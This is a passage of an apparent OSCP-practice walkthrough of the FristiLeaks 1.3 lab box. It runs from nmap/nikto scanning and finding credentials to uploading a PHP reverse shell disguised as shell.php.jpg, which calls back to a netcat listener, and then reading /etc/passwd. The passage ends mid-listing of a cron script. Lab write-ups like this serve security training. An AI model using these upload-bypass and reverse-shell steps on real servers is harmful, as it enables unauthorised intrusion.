









# OSCP Vulnhub Set 1 - FristiLeaks 1.3

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=19eeead8-0be9-42cf-a338-12aaf55c1533

Target IP: 10.101.85.16

---

## Scanning and Enumeration

### Nmap

Scan the available ports.

```
nmap -Pn 10.101.85.16
```

Only HTTP port is open.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/06]
└─$ nmap -Pn 10.101.85.16
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-21 02:05 -0400
Nmap scan report for 10.101.85.16
Host is up (0.0029s latency).
Not shown: 988 filtered tcp ports (no-response), 11 filtered tcp ports (host-prohibited)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.72 seconds
```

---

### Nikto

Scan for web server vulnerabilities.

```
nikto -h 10.101.85.16
```

The scan results reveal that the server runs Apache/2.2.15 and PHP/5.3.3, and a robots.txt file was also discovered containing 3 hidden entries worth investigating.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/06]
└─$ nikto -h 10.101.85.16                      
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.101.85.16
+ Target Hostname:    10.101.85.16
+ Target Port:        80
+ Platform:           Linux/Unix
+ Start Time:         2026-05-21 01:42:11 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
+ ERROR: Failed to check for updates: 403
+ [999984] /: Server may leak inodes via ETags, header found with file /, inode: 12722, size: 703, mtime: Tue Nov 17 13:45:47 2015. See: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [999996] /robots.txt: contains 3 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ [600625] PHP/5.3.3 appears to be outdated (current is at least 8.5.1).
+ [600050] Apache/2.2.15 appears to be outdated (current is at least 2.4.66).
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [800262] /: PHP/5.3 - PHP 3/4/5 and 7.0 are End of Life products without support.
+ [999990] OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE .
+ [000434] /: HTTP TRACE method is active and replies which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ [750500] /icons/: Directory indexing found.
+ [750500] /images/: Directory indexing found.
+ [003584] /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ [007342] /: X-Frame-Options header is deprecated and was replaced with the Content-Security-Policy HTTP header with the frame-ancestors directive. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Frame-Options
+ [007352] /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ 8117 requests: 16 errors and 17 items reported on the remote host
+ End Time:           2026-05-21 01:48:20 (GMT-4) (369 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

---

### Web Application Enumeration

Open the website and try to find anything which may leads us to CVE or something else.

```
http://10.101.85.16/
```

It is a welcome page that displays the name 'Fristileaks' along with a list of names/twitter handles that could serve as potential usernames.



Additionally, checking the page source reveals no useful or sensitive information.

```
<!-- Welcome to #Fristleaks, a quick hackme VM by @Ar0xA

Goal: get UID 0 (root) and read the special flag file.
Timeframe: should be doable in 4 hours.
-->
<html>
<body bgcolor="#FF69B4">
<br />
<center><h1> The <a href="https://twitter.com/search?q=%23fristileaks">#fristileaks</a> motto:</h1> </center>
<center>  </center>
<br />
Fristileaks 2015-12-11 are:<br> 
@meneer, @barrebas, @rikvduijn, @wez3forsec, @PyroBatNL, @0xDUDE, @annejanbrouwer, @Sander2121, Reinierk, @DearCharles, @miamat, MisterXE, BasB, Dwight, Egeltje, @pdersjant, @tcp130x10, @spierenburg, @ielmatani, @renepieters, Mystery guest, @EQ_uinix, @WhatSecurity, @mramsmeets, @Ar0xA
</body>
</html>
```

Let's access robots.txt.

```
http://10.101.85.16/robots.txt
```

Three hidden directories were discovered.

```
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
```

Accessing the discovered directories.

```
http://10.101.85.16/cola/
http://10.101.85.16/sisi/
http://10.101.85.16/beer/
```

None of these directories contain any useful information.



I noticed that cola, sisi, and beer are all names of drinks, so since fristi is another drink name discovered earlier on the welcome page, let's try accessing /fristi.

```
http://10.101.85.16/fristi/
```

That worked and led to a login page, but trying common SQL injection payloads to bypass it failed, so I need to look for more information on this page.



There is sensitive information in the page source.



The meta tag description gives a crucial hint about the developer's practices, confirming that the long block of random text found in the comments is actually a Base64-encoded image.

```
<meta name="description" content="super leet password login-test page. We use base64 encoding for images so they are inline in the HTML. I read somewhere on the web, that thats a good way to do it.">
```

A development comment by a user named "eezeepz", which suggests a potential username.

```
<!-- 
TODO:
We need to clean this up for production. I left some junk in here to make testing easier.

- by eezeepz
-->
```

A large block of Base64 encoded text hidden within the HTML comments, which likely contains an image according to the meta description.

```
<!-- 
iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLq
i1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2Fg
tOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws
30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl
3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HK
ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
U5ErkJggg==
-->
```

I decoded the Base64 block using Base64 Guru.

```
https://base64.guru/converter/decode/image
```

The decoded image contains the text "keKkeKKeKKeKkEkkEk".



Assuming this text might be the password, we head back to the login page and attempt to log in as eezeepz.

```
Username: eezeepz
Password: keKkeKKeKKeKkEkkEk
```

The login was successful, leading us to a dashboard that contains a link to an upload page.



Clicking the link navigates to the file upload feature.



To test how the function worked, I uploaded a valid image file which the server accepted and revealed that uploaded files are stored in the /uploads directory.

```
Uploading, please wait
The file has been uploaded to /uploads 
```

We can access and view our uploaded images directly through that directory, making this feature a prime target for Remote Code Execution (RCE) if a malicious script can be uploaded.



---

## Exploitation

### Reverse Shell

Next, prepare the reverse shell script on Kali.

```
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
```

Modify the listener IP and port in the script to match our machine.

```
nano shell.php
```

- $ip = '10.101.55.75';
- $port = 1234;

Set up a netcat listener to catch the incoming connection.

```
rlwrap nc -lvp 1234
```

However, attempting to upload shell.php failed due to file extension restrictions, which only allow PNG, JPG, and GIF files.

```
Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded 
```

To bypass this restriction, duplicate shell.php and rename it to shell.php.jpg.

```
cp shell.php shell.php.jpg
```

The upload was successful.



Now, access shell.php.jpg to execute the payload.

```
http://10.101.85.16/fristi/uploads/shell.php.jpg
```

Checking back on the listener, we successfully obtained a reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/06]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
10.101.85.16: inverse host lookup failed: Unknown host
connect to [10.101.55.75] from (UNKNOWN) [10.101.85.16] 36161
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 23:09:08 up 5 days, 20:53,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.1$ 
```

---

## Privilege Escalation

### System Enumeration

Checking /etc/passwd reveals 5 active users with a login shell (/bin/bash) including root, mysql, eezeepz, admin, and fristigod.

```
sh-4.1$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...[snip]...
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
fristi:x:503:100::/var/www:/sbin/nologin
```

Navigating to /home/admin to check for interesting files.

```
cd /home/admin
```

We find cronjob.py which processes commands from /tmp/runthis, but it implements a strict whitelist restriction where commands must start with /home/admin/ or /usr/bin/ and cannot contain pipelines or special characters (|, &, ;).

```
sh-4.1$ cat cronjob.py
cat cronjob.py
import os

def writefile(str):
    with open('/tmp/cronresult','a') as er:
        er.write(str)
        er.close()

with open('/tmp/runthis','r') as f:
